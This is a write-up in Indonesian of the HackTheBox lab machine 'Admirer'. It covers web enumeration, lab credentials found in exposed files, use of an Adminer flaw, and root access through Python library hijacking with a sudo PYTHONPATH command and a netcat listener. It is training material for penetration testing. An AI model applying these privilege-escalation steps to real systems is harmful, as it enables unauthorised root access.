




# Admirer [Linux]



Box Admirer dengan operating system Linux, menurut creatornya akan berisi banyak exploitasi berdasarkan existing CVE.

### Enumeration

Pertama penulis akan melakukan enumerasi terlebih dahulu dengan menggunakan nmap.



Dari hasil nmap diatas kita bisa melihat ada beberapa service yang berjalan di IP tersebut seperti FTP, SSH, dan HTTP

Nmap juga mengeluarkan info bahwa terdapat file robots.txt yang melakukan disallow terhadap /admin-dir

Mari kita akses saja web service yang berjalan, tampilan web nya akan menyerupai semacam gallery gambar.


Tidak ada hal menarik yang bisa ditemukan, mari kita coba mengecek directory yang di disallow oleh robots.txt, sebuah directory yang sepertinya berisi file-file penting.

Untuk mencari file-file tersebut penulis menggunakan dirbuster dengan wordlist medium dan ditemukan 2 file yang cukup menarik

- /admin-dir/contact.txt (berisi email-email)

```
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb


##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb


#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

- credentials.txt (berisi user/password valid untuk login ke FTP)

```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Setelah berhasil login di FTP menggunakan kombinasi kredensial ftpuser:%n?4Wz}R$tTF7

Kita mendapatkan 2 file, yaitu dump.sql dan html.tar.gz

- dump.sql

```
-- MySQL dump 10.16  Distrib 10.1.41-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: admirerdb
-- ------------------------------------------------------
-- Server version       10.1.41-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `items`
--

DROP TABLE IF EXISTS `items`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `items` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `thumb_path` text NOT NULL,
  `image_path` text NOT NULL,
  `title` text NOT NULL,
  `text` text,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=13 DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `items`
--

LOCK TABLES `items` WRITE;
/*!40000 ALTER TABLE `items` DISABLE KEYS */;
INSERT INTO `items` VALUES (1,'images/thumbs/thmb_art01.jpg','images/fulls/art01.jpg','Visual Art','A pure 
......................

-- Dump completed on 2019-12-02 20:24:15
```

- db_admin.php (Didalam html.tar.gz)

```
<?php
  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";

  // Create connection
  $conn = new mysqli($servername, $username, $password);

  // Check connection
  if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error);
  }
  echo "Connected successfully";


  // TODO: Finish implementing this or find a better open source alternative
?>
```

Dikarenakan db_admin.php tidak bisa ditemukan maka "TODO" yang ditulis di db_admin.php kemungkinan besar sudah dilakukan, yang berarti kemungkinan besar web sudah terpasang Adminer.

### User

Terdapat video yang bisa dijadikan acuan untuk diikuti secara seksama di [link ini](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)



```
waldo:&<h5b~yK3F#{PaPB&dA}{H>
```

Kita bisa login melalui SSH dengan kredensial diatas

### Root

Pertama penulis mengecek sudo privilege waldo dengan menjalankan sudo -l , ternyata waldo bisa melakukan execution /opt/scripts/admin_tasks.sh sebagai root.

```
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Jika dilihat isi dari admin_tasks.sh adalah

```
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

Bagian yang menarik dari antara code tersebut terletak di

```
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

Mari lihat isi dari backup.py

```
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Disini kita akan memanfaatkan kelemahan yang dipanggil "Python Library Hijacking"

Referensi cara exploitasinya bisa ditemukan di [sini](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) dan di [sini](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Perlu diperhatikan bahwa backup.py melakukan import shutil.py maka penulis akan mengubah isi dari shutil.py yang di import tetapi dengan menggunakan nama function yang sama agar tidak terjadi error saat script dijalankan.



```
sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6
```

Kita akan menerima root shell dengan membuka netcat listener.

# Rooted !